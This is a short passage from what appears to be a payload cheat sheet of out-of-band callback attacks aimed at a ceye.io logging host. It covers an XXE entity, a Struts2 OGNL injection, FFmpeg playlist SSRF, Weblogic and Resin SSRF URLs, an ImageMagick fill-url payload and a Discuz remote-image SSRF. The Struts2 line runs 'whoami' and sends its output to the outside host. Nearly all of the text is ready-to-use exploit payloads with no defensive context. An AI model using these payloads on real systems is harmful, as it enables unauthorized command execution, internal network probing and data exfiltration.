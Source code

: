 #### 0x02 XML Entity Injection

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

#### 0x03 Others

##### i. Struts2

```
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}
xx.action?redirect:${ %23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```

##### ii. FFMpeg

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST
```

##### iii. Weblogic

```
 xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```

##### iv. ImageMagick

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context
```

##### v. Resin

```
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf
```

##### vi. Discuz

```
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```
